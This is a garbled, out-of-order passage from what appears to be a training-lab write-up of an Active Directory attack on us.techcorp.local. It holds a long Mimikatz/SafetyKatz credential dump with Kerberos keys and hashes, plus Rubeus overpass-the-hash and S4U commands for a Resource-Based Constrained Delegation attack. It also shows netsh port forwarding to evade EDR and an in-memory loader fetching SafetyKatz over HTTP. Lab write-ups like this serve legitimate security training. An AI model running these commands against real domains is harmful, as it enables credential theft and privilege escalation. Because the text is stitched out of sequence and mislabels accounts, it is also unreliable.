Loader.exe `C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn%" "exit"bash mimikatz(commandline) # sekurlsa::ekeys Authentication Id : 0 ; 11145255 (00000000:00aa1027) Session : RemoteInteractive from 2 User Name : helpdeskadmin Domain : US Logon Server : US-DC Logon Time : 7/7/2024 2:38:45 AM SID : S-1-5-21-210670787-2521448726-163245708-1120 * Username : helpdeskadmin * Domain : US.TECHCORP.LOCAL * Password : (null) * Key List : aes256_hmac f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534 rc4_hmac_nt 94b4a7961bb45377f6e7951b0d8630be rc4_hmac_old 94b4a7961bb45377f6e7951b0d8630be rc4_md4 94b4a7961bb45377f6e7951b0d8630be rc4_hmac_nt_exp 94b4a7961bb45377f6e7951b0d8630be rc4_hmac_old_exp 94b4a7961bb45377f6e7951b0d8630be Authentication Id : 0 ; 11144566 (00000000:00aa0d76) Session : RemoteInteractive from 2 User Name : helpdeskadmin Domain : US Logon Server : US-DC Logon Time : 7/7/2024 2:38:45 AM SID : S-1-5-21-210670787-2521448726-163245708-1120 * Username : helpdeskadmin * Domain : US.TECHCORP.LOCAL * Password : (null) * Key List : aes256_hmac f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534 rc4_hmac_nt 94b4a7961bb45377f6e7951b0d8630be rc4_hmac_old 94b4a7961bb45377f6e7951b0d8630be rc4_md4 94b4a7961bb45377f6e7951b0d8630be rc4_hmac_nt_exp 94b4a7961bb45377f6e7951b0d8630be rc4_hmac_old_exp 94b4a7961bb45377f6e7951b0d8630be Authentication Id : 0 ; 10889602 (00000000:00a62982) Session : Interactive from 2 User Name : UMFD-2 Domain : Font Driver Host Logon Server : (null) Logon Time : 7/7/2024 2:38:24 AM SID : S-1-5-96-0-2 * Username : US-HELPDESK$ * Domain : us.techcorp.local Password : _P,6-6-[/Y(bUsRE7z/@/x2o&Aw/A+S.:HY4O"Um?ML"JJeEe>0^Ywi:18Q?:v^GZno&/M]tE-gIF88_/W4SG]+R]#7n[dlTQ_qQ * Key List : aes256_hmac 9ff8482457429da3c58f466671a80765f175b14f22ef2d2ee0e12f7db3675e39 aes128_hmac b594b6d5ec804b1cec302f778b5249d0 rc4_hmac_nt 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old 76c3848cc2e34ef0a8b5751f7e886b8e rc4_md4 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_nt_exp 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old_exp 76c3848cc2e34ef0a8b5751f7e886b8e Authentication Id : 0 ; 48655 (00000000:0000be0f) Session : Interactive from 1 User Name : DWM-1 Domain : Window Manager Logon Server : (null) Logon Time : 7/7/2024 2:08:14 AM SID : S-1-5-90-0-1 * Username : US-HELPDESK$ * Domain : us.techcorp.local Password : _P,6-6-[/Y(bUsRE7z/@/x2o&Aw/A+S.:HY4O"Um?ML"JJeEe>0^Ywi:18Q?:v^GZno&/M]tE-gIF88_/W4SG]+R]#7n[dlTQ_qQ * Key List : aes256_hmac 9ff8482457429da3c58f466671a80765f175b14f22ef2d2ee0e12f7db3675e39 aes128_hmac b594b6d5ec804b1cec302f778b5249d0 rc4_hmac_nt 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old 76c3848cc2e34ef0a8b5751f7e886b8e rc4_md4 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_nt_exp 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old_exp 76c3848cc2e34ef0a8b5751f7e886b8e Authentication Id : 0 ; 29404 (00000000:000072dc) Session : Interactive from 1 User Name : UMFD-1 Domain : Font Driver Host Logon Server : (null) Logon Time : 7/7/2024 2:08:13 AM SID : S-1-5-96-0-1 * Username : US-HELPDESK$ * Domain : us.techcorp.local Password : _P,6-6-[/Y(bUsRE7z/@/x2o&Aw/A+S.:HY4O"Um?ML"JJeEe>0^Ywi:18Q?:v^GZno&/M]tE-gIF88_/W4SG]+R]#7n[dlTQ_qQ * Key List : aes256_hmac 9ff8482457429da3c58f466671a80765f175b14f22ef2d2ee0e12f7db3675e39 aes128_hmac b594b6d5ec804b1cec302f778b5249d0 rc4_hmac_nt 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old 76c3848cc2e34ef0a8b5751f7e886b8e rc4_md4 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_nt_exp 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old_exp 76c3848cc2e34ef0a8b5751f7e886b8e Authentication Id : 0 ; 999 (00000000:000003e7) Session : UndefinedLogonType from 0 User Name : US-HELPDESK$ Domain : US Logon Server : (null) Logon Time : 7/7/2024 2:08:12 AM SID : S-1-5-18 * Username : us-helpdesk$ * Domain : US.TECHCORP.LOCAL * Password : (null) * Key List : aes256_hmac b654a7108a6e384d0e8a57db97dc10afed802f40b419eb7688e821478ccdaf9f rc4_hmac_nt 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old 76c3848cc2e34ef0a8b5751f7e886b8e rc4_md4 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_nt_exp 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old_exp 76c3848cc2e34ef0a8b5751f7e886b8e Authentication Id : 0 ; 996 (00000000:000003e4) Session : Service from 0 User Name : US-HELPDESK$ Domain : US Logon Server : (null) Logon Time : 7/7/2024 2:08:13 AM SID : S-1-5-20 * Username : us-helpdesk$ * Domain : US.TECHCORP.LOCAL * Password : (null) * Key List : aes256_hmac b654a7108a6e384d0e8a57db97dc10afed802f40b419eb7688e821478ccdaf9f rc4_hmac_nt 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old 76c3848cc2e34ef0a8b5751f7e886b8e rc4_md4 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_nt_exp 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old_exp 76c3848cc2e34ef0a8b5751f7e886b8e Authentication Id : 0 ; 10897877 (00000000:00a649d5) Session : Interactive from 2 User Name : DWM-2 Domain : Window Manager Logon Server : (null) Logon Time : 7/7/2024 2:38:25 AM SID : S-1-5-90-0-2 * Username : US-HELPDESK$ * Domain : us.techcorp.local Password : _P,6-6-[/Y(bUsRE7z/@/x2o&Aw/A+S.:HY4O"Um?ML"JJeEe>0^Ywi:18Q?:v^GZno&/M]tE-gIF88_/W4SG]+R]#7n[dlTQ_qQ * Key List : aes256_hmac 9ff8482457429da3c58f466671a80765f175b14f22ef2d2ee0e12f7db3675e39 aes128_hmac b594b6d5ec804b1cec302f778b5249d0 rc4_hmac_nt 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old 76c3848cc2e34ef0a8b5751f7e886b8e rc4_md4 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_nt_exp 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old_exp 76c3848cc2e34ef0a8b5751f7e886b8e Authentication Id : 0 ; 10897845 (00000000:00a649b5) Session : Interactive from 2 User Name : DWM-2 Domain : Window Manager Logon Server : (null) Logon Time : 7/7/2024 2:38:25 AM SID : S-1-5-90-0-2 * Username : US-HELPDESK$ * Domain : us.techcorp.local Password : _P,6-6-[/Y(bUsRE7z/@/x2o&Aw/A+S.:HY4O"Um?ML"JJeEe>0^Ywi:18Q?:v^GZno&/M]tE-gIF88_/W4SG]+R]#7n[dlTQ_qQ * Key List : aes256_hmac 9ff8482457429da3c58f466671a80765f175b14f22ef2d2ee0e12f7db3675e39 aes128_hmac b594b6d5ec804b1cec302f778b5249d0 rc4_hmac_nt 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old 76c3848cc2e34ef0a8b5751f7e886b8e rc4_md4 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_nt_exp 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old_exp 76c3848cc2e34ef0a8b5751f7e886b8e Authentication Id : 0 ; 48635 (00000000:0000bdfb) Session : Interactive from 1 User Name : DWM-1 Domain : Window Manager Logon Server : (null) Logon Time : 7/7/2024 2:08:14 AM SID : S-1-5-90-0-1 * Username : US-HELPDESK$ * Domain : us.techcorp.local Password : _P,6-6-[/Y(bUsRE7z/@/x2o&Aw/A+S.:HY4O"Um?ML"JJeEe>0^Ywi:18Q?:v^GZno&/M]tE-gIF88_/W4SG]+R]#7n[dlTQ_qQ * Key List : aes256_hmac 9ff8482457429da3c58f466671a80765f175b14f22ef2d2ee0e12f7db3675e39 aes128_hmac b594b6d5ec804b1cec302f778b5249d0 rc4_hmac_nt 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old 76c3848cc2e34ef0a8b5751f7e886b8e rc4_md4 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_nt_exp 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old_exp 76c3848cc2e34ef0a8b5751f7e886b8e Authentication Id : 0 ; 29394 (00000000:000072d2) Session : Interactive from 0 User Name : UMFD-0 Domain : Font Driver Host Logon Server : (null) Logon Time : 7/7/2024 2:08:13 AM SID : S-1-5-96-0-0 * Username : US-HELPDESK$ * Domain : us.techcorp.local Password : _P,6-6-[/Y(bUsRE7z/@/x2o&Aw/A+S.:HY4O"Um?ML"JJeEe>0^Ywi:18Q?:v^GZno&/M]tE-gIF88_/W4SG]+R]#7n[dlTQ_qQ * Key List : aes256_hmac 9ff8482457429da3c58f466671a80765f175b14f22ef2d2ee0e12f7db3675e39 aes128_hmac b594b6d5ec804b1cec302f778b5249d0 rc4_hmac_nt 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old 76c3848cc2e34ef0a8b5751f7e886b8e rc4_md4 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_nt_exp 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old_exp 76c3848cc2e34ef0a8b5751f7e886b8e mimikatz(commandline) # exit ` To determine which AES256 hash is the correct one for the US-HELPDESK$ account, we need to identify the real Kerberos key instead of session-specific keys or duplicate entries. In our SafetyKatz output, multiple instances of the US-MGMT$ account appear with different Authentication IDs, which means there are multiple sessions where this account is active. This happens because: To determine the valid AES256 key for Kerberos authentication, look at: `bash Authentication Id : 0 ; 999 (00000000:000003e7) Session : UndefinedLogonType from 0 User Name : US-HELPDESK$ Domain : US Logon Server : (null) Logon Time : 7/7/2024 2:08:12 AM SID : S-1-5-18 * Username : us-helpdesk$ * Domain : US.TECHCORP.LOCAL * Password : (null) * Key List : aes256_hmac b654a7108a6e384d0e8a57db97dc10afed802f40b419eb7688e821478ccdaf9f rc4_hmac_nt 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old 76c3848cc2e34ef0a8b5751f7e886b8e rc4_md4 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_nt_exp 76c3848cc2e34ef0a8b5751f7e886b8e rc4_hmac_old_exp 76c3848cc2e34ef0a8b5751f7e886b8e ` It was also possible to compromise `bash Authentication Id : 0 ; 11145255 (00000000:00aa1027) Session : RemoteInteractive from 2 User Name : helpdeskadmin Domain : US Logon Server : US-DC Logon Time : 7/7/2024 2:38:45 AM SID : S-1-5-21-210670787-2521448726-163245708-1120 * Username : helpdeskadmin * Domain : US.TECHCORP.LOCAL * Password : (null) * Key List : aes256_hmac f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534 rc4_hmac_nt 94b4a7961bb45377f6e7951b0d8630be rc4_hmac_old 94b4a7961bb45377f6e7951b0d8630be rc4_md4 94b4a7961bb45377f6e7951b0d8630be rc4_hmac_nt_exp 94b4a7961bb45377f6e7951b0d8630be rc4_hmac_old_exp 94b4a7961bb45377f6e7951b0d8630be ` Voilaaaaa we were able to abuse Resource Based Constrained Delegation and compromise Now, with this newly compromised Let’s Encode the Rubeus.exe argument( Let’s run the OverPass-the-hash command using Rubeus from an elevated shell. Now that we were able to leverage our session as helpdeskadmin, lets check if our user has local privileges access on any host inside our target domain. We will achieve this task using Find-PSRemotingAdminAccess script.  We can see that I also did the same check using Find-LocalAdminAccess from PowerView module, but I did not get the same result. PowerView was not able to bring us a single machine where  Check the several reasons why we do have this behaviour and we should always pay attention to that.Understanding the Multiple Entries
How to Identify the Correct AES256 Hash
User: mgmtadminAES256: 32827622ac4357bcb476ed3ae362f9d3e7d27e292eb27519d2b8b419db24c00fNTLM: e53153fc2dc8d4c5a5839e46220717e5User: US-MGMT$AES256: cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2NTLM: fae951131d684b3318f524c535d36fb2C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args "%Pwn%" /user:us-mgmt /aes256:cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /pttUS-MGMT TGT using AES256 key.Moving Forward now….
mgmtadmin. With this new user, Let’s enumerate ACLs and find our if there’s any juice rights from mgmtadmin user.
Enumerating ACLs with PowerView Module
Note: Please pay attention that, this type of query may take some time to finish.Import-Module .\Powerview.ps1Find-InterestingDomainACL -ResolveGUIDs | ?{$_.IdentityReferenceName -Match 'mgmtadmin'}mgmtadmin has ListChildren, ReadProperty and GenericWrite over US-HELPDESK computer.msDS-AllowedToActOnBehalfOfOtherIdentity, which controls delegation. By setting this attribute, we configure US-HELPDESK to trust our own machine (student VM) to authenticate as any user. This means we can impersonate privileged users when interacting with US-HELPDESK, effectively gaining control over it.US-HELPDESK, and gain access as that user. This allows us to escalate privileges and pivot further within the domain.mgmtadmin account and we will do it by requesting it’s TGT and importing into a new session.asktgt) using ArgSplit.bat file and then copy/paste it into our cmd session where we will execute Rubeus.exe.ArgSplit.bat
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args "%Pwn%" /user:mgmtadmin /aes256:32827622ac4357bcb476ed3ae362f9d3e7d27e292eb27519d2b8b419db24c00f /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /pttmgmtadmin now, we are ready to carry on.Resource Based Constrained delegation Attack with ADModule
US-HELPDESK computer object in Active Directory. Specifically, we are modifying it’s msDS-AllowedToActOnBehalfOfOtherIdentity attribute to allow our own machine (student163$) to impersonate users when interacting with US-HELPDESK.Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dllImport-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1msDS-AllowedToActOnBehalfOfOtherIdentity attribute on the target machine, leveraging our existing GenericWrite permission. We're doing this by using PowerShell's Set-ADComputer cmdlet, which sets the delegation rights directly on the target (us-helpdesk) to allow delegation for our compromised machine (student163$).$computer) in our PowerShell session to clearly store and reuse the machine account (student163$), making the command simpler, easier to manage, and reducing the chance of errors.$computer = 'student163$'Set-ADComputer -Identity 'us-helpdesk' -PrincipalsAllowedToDelegateToAccount $computer -Verbosestudent163$ credentials to use its identity, let’s run Safetykatz on our own machine to extract this info. Instead of getting clear-text credentials we should dump the ekeys for OpSec.sekurlsa::ekeys) using ArgSplit.bat file and copy/paste it into our cmd session.
SafetyKatz.exe into the memory using our Loader.exe.student163$ account, go for the one with SID S-1-5-18 that is a well-known SID for the SYSTEM userRequesting TGS (Ticket Granting Service)
student163$ with Rubeus.exe and request a TGS for HTTP SPN for out machine account student163$.s4u) using ArgSplit.bat file and copy/paste it into our cmd session.
Service (SPN)
Purpose/Protocol
Native Tool/Access Method
HTTP
Web-based access, including WinRM/WinRS
winrs, PowerShell Remoting (WinRM)
HOST
General host-based services
WMI, SMB, Remote Service Management
CIFS
File sharing over SMB
net use, dir \\share\folder, File Explorer
RPCSS
Remote Procedure Call services
WMI, DCOM, RPC-based tools
MSSQLSvc
Microsoft SQL Server
SQL Management Studio, ODBC, SQLCMD
LDAP
Directory access over LDAP
ldapsearch, dsquery, AD enumeration tools
SMTPSVC
SMTP service for mail servers
Sending emails via Exchange or SMTP relay
IMAP
Email access over IMAP
Email clients (e.g., Thunderbird, Outlook)
POP3
Email access over POP3
Email clients
FTP
File transfer over FTP
ftp client, FileZilla, command-line FTP
RDP
Remote Desktop Protocol
MSTSC (Remote Desktop Connection)
WSMAN
Windows Remote Management (WinRM)
PowerShell Remoting,
Invoke-Command
TERMSRV
Terminal Services
RDP sessions, RemoteApp
DNS
Domain Name System
DNS queries,
nslookup, DNS-based enumeration
SHELL
Remote Shell Protocol
Telnet-like access
NFS
Network File System
Mounting NFS shares
SMTP
Mail relay using SMTP
Sending email via SMTP
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args "%Pwn%" /user:student163$ /aes256:5383ebf4fde9071ca6fe318f518202dfad2200e06ddab1b3798fda0bf1c7b764 /msdsspn:http/us-helpdesk /impersonateuser:administrator /pttstudent163$ to request a Kerberos Ticket Granting Service (TGS) ticket for US-HELPDESK while impersonating the administrator.studentx$. This is essential because, in an RBCD attack, we do not need the machine account's password, just its Kerberos key.Loader.exe, we are running Rubeus with parameters to request a service ticket for US-HELPDESK on behalf of the administrator. The /user:student163$ flag specifies the machine account we control, while /aes256:5383ebf4fde9071ca6fe318f518202dfad2200e06ddab1b3798fda0bf1c7b764 provides the key to authenticate the request.s4u flag in Rubeus triggers the S4U2Self Kerberos extension, which allows student163$ to obtain a forwardable service ticket for administrator without needing their password. Then, the /msdsspn:http/us-helpdesk option tells Rubeus to use this ticket with S4U2Proxy, effectively delegating the authentication to US-HELPDESK. The final /ptt flag injects the ticket directly into memory, allowing us to use it without writing it to disk.klist
klist, which lists the Kerberos tickets cached for the current session. The output confirms that a valid service ticket exists for administrator@US.TECHCORP.LOCAL for the HTTP service on US-HELPDESK, meaning we can now authenticate as administrator on US-HELPDESK without needing the administrator’s actual credentials.administrator on US-HELPDESK, ultimately escalating privileges within the domain.
http/us-helpdesk service into us-helpdesk, which only gives us remote access. to be able to access the system, let’s request a new TGS Ticket Granting Service to CIFS/us-helpdesk. Encode the Rubeus.exe argument(s4u) using ArgSplit.bat file and copy/paste it into our cmd session.ArgSplit.bat
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args "%Pwn%" /user:student163$ /aes256:5383ebf4fde9071ca6fe318f518202dfad2200e06ddab1b3798fda0bf1c7b764 /msdsspn:cifs/us-helpdesk /impersonateuser:administrator /ptt
CIFS/us-helpdesk service ticket. We can now get copy files into the system by mapping drivers from the target to our host.Dumping Credentials with SafetyKatz.exe
Mapping Shares to local system
US-mgmt.
net use x: \\us-helpdesk\C$\Users\Public
xcopy.echo F | xcopy C:\AD\Tools\Loader.exe x:Loader.exe /Y
echo F we pass in the beginning is to tell prompt that we are transferring a file.net use x: /deletePortforwarding to bypass EDR
winrs -r:us-helpdesk cmdnetsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.163
1.
netsh interface portproxy add v4tov4:
netsh interface portproxy: This is the part of the netsh utility that deals with port forwarding. It allows forwarding TCP traffic from one IP/port combination to another.add: Specifies that you're adding a new forwarding rule.v4tov4: Indicates that both the listening and connecting addresses use IPv4.2.
listenport=8080:
8080.3.
listenaddress=127.0.0.1:
0.0.0.0 means it will listen on all network interfaces available on the machine (e.g., public, private, or loopback IPs).4.
connectport=80:
80 (commonly used for HTTP).5.
connectaddress=192.168.100.163:
nesh interface portproxy show allUsing SafetyKatz to dump credentials
sekurlsa::ekeys) using ArgSplit.bat file and copy/paste it into our cmd session.HFS.exe to host SafetyKatz.exe and I have my firewall disabled.Understanding the Multiple Entries
How to Identify the Correct AES256 Hash
helpdeskadmin ekeys.US-HELPDESK$ machine account and we also dumped all the credentials in this host since we were able to impersonate the administrator.helpdeskadmin, let’s find out if we do have remote admin access in any host inside our us.techcorp.local domain.asktgt) using ArgSplit.bat file and copy/paste it into our cmd session.ArgSplit.bat
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args "%Pwn%" /user:helpdeskadmin /aes256:f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
Import-Module C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1Find-PSRemotingLocalAdminAccess -Domain 'us.techcorp.local' -Verbosehelpdeskadmin has administrative privileges on us-adconnect as well.helpdeskadmin user has LocalAdmin access.Find-LocalAdminAccess -VerboseKey Differences
Find-PSRemotingLocalAdminAccess:
Find-LocalAdminAccess (PowerView):Find-PSRemotingLocalAdminAccess.